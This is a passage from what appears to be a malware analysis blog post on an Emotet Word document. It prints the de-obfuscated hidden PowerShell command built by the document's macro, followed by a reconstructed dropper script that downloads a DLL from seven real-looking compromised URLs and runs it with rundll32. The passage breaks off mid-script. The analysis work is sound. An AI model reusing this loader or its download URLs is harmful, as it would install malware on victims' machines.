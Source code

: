 To compose the string, the script made also use of the contents of the original DOC file (grabbed with `T77vhvocooru69svd.StoryRanges.Item(4 / 4)` and stored in `VAR_1`). Extrapolating it and putting all the pieces together yielded this string:

```batch
cmd cmd cmd cmd /c msg %username% /v Word experienced an error trying to open the file. &amp;  P^Ow^er^she^L^L -w hidden -ENCOD                 IAAgAHMAZQB0AC0AdgBhAFIA[...]TAA9ACgAJwBEADkAJwArACcAXwBRACcAKQA=
```

This result is clearly an invocation to a hidden PowerShell with a base64-encoded string as argument. Decoding the argument with common base64 decoders didn’t work, so I had to use an online PowerShell REPL (at [tio.run](https://tio.run/)) and invoke the PowerShell decoder.

![Decoding if the Base-64 PowerShell string](/assets/posts/emotet-1.png){:.img-big}

Once again, the code had been obfuscated, so with a bit of effort we manually reconstructed the script.

```powershell
set-vaRIabLe 8ye ([tYpE]("sYstEM.IO.dIREcTOrY"));
Sv ("plt") ([Type]("system.nET.seRVIcEpoiNtmanaGEr"));
$ErrorActionPreference = ('SilentlyContinue');

(gET-vARiAblE 8YE).valUe::"cReATeDIrEcToRy"($HOME + ('\Jxk4jr_\Dhuljgz\'));
(VaRiablE ("PLt")).vAlUE::"SecUritYPrOTocOl" = ('Tls12');

$DLL_PATH=$HOME+('\Jxk4jr_\Dhuljgz\D71J.dll');
$URLS=(
    'http://swiftlogisticseg.com/wp-admin/VE9h0jj/',
    'http://sahla-ad.com/wp-content/a/',
    'http://myphamjapan.com/dup-installer/db/',
    'https://bandarabbad.com/wp-admin/Lo5kEa/',
    'http://ngrehab.biz/wp-includes/TCWeeN/',
    'https://www.bereketsutesisatcisi.com/wp-content/xhGs43c/',
    'https://astrologiaexistencial.com/l/L/'
);

foreach ($WEBISTE in $URLS){
    try{
        (.('New-Object') SyStem.NeT.WeBClient)."DoWNloADfIle"($WEBISTE, $DLL_PATH);
        If ((&('Get-Item') $DLL_PATH)."LeNGTH" -ge 37992) {
            &('rundll32') $DLL_PATH,('Control_RunDLL')."tOstRING"();
            break;
        }
```
